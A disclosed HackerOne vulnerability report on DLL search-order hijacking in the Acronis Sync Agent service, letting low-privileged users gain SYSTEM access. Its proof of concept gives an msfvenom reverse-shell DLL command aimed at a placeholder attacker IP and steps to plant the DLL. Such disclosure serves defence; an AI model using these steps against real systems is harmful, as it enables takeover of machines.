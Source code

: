 # Acronis Sync Agent Service - Untrusted DLL Search-Ordering lead to Privilege Escalation

## Report Details
- **Report ID**: 924493
- **URL**: https://hackerone.com/reports/924493
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-15T15:44:23.412Z
- **Disclosed**: 2024-08-26T15:27:58.091Z

## Reporter
- **Username**: vanitas
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Vulnerability Explanation :
	An issue was discovered in Acronis Sync Agent service which intregated from Acronis True Image ver.24.6.25700. This service is suffered by incorrect DLL search-order hijacking. The malicious users who are in “Authenticated Users” group can use DLL-Hijacking to execute arbitrary code and do privilege escalation exploit to escalate and gain full system privilege user access and rights over the system.

Vulnerable application version :
	Acronis True Image ver.24.6.25700 (maybe lower are affected too).

PoC Operating System version :
	Microsoft Windows 10 Home - 64 bits with latest patched.

Vulnerability found :
1. Incorrect DLL search-order from syncagentsrv.exe.
2. DLL-Hijacking using CSUNSAPI.dll.	

Lab Environment :
1. Install Python2.7 for windows, we can see C:\Python27 which is default home application of Python2.7 is added to SYSTEM PATH variable. Open from environment variable. [Ref Picture : 01.jpg, 02.jpg]

Vulnerability Finding :
1. See from service : "Acronis Sync Agent Service" can running by execute file : "C:\Program Files (x86)\Common Files\Acronis\SyncAgent\syncagentsrv.exe"
2. Open Process Monitor, to find out how it is doing. Add filter with following criteria : [Ref Picture : 03.jpg]
• Process Name is syncagentsrv.exe (Include)
• Result contains NOT FOUND (Include)
• Path contains C:\Python27 (Include)
• Operation begins with Reg (Exclude)
3. From Process Monitor, we can see suspicious DLL name as : "CSUNSAPI.dll" was called in every folders which are defined in SYSTEM PATH variable. [Ref Picture : 04.jpg]
4. When closely look for this process details, see that C:\Python27\CSUNSAPI.dll was loaded by SYSTEM privilege with 32 bits process. [Ref Picture : 05.jpg, 06.jpg]
This is potential to do privilege escalation exploit using DLL-hijacking

Proof-of-concept exploitation :
1. Use msfvenom tool on Kali-linux to generate malicious DLL file, then save as CSUNSAPI.dll. It will generate shellcode to send reverse shell to attacker when this DLL is loaded to target system as below command. [Ref Picture : 07.jpg]
Command : 
msfvenom -p windows/shell_reverse_tcp LHOST=[Attacker-IP] LPORT=[Attacker-port] -f dll > CSUNSAPI.dll
2. On attacker side (Kali-linux). Start reverse shell listener for receive reverse shell.
3. Transfer malicious DLL file to target server, place CSUNSAPI.dll at C:\Python27. Since this folder is writeable by any of users are in Authenticated Users group, then this low privileged user is allow to place this malicious DLL on this. [Ref Picture : 08.jpg]
4. Reboot lab machine, because this low privilege user don’t have service permission to control Acronis Sync Agent Service. Then we need to reboot target to initial this service again.
5. Get reverse shell as SYSTEM privilege, we can see this reverse shell is spawned by malicious DLL-hijacking. [Ref Picture : 09.jpg, 10.jpg]

## Impact

Impact :
Malicious users are able to gain privilege escalation permission as SYSTEM privilege.

## Attachments
- 01.jpg
- 02.jpg
- 04.jpg
- 03.jpg
- 05.jpg
- 06.jpg
- 07.jpg
- 08.jpg
- 09.jpg
- 10.jpg
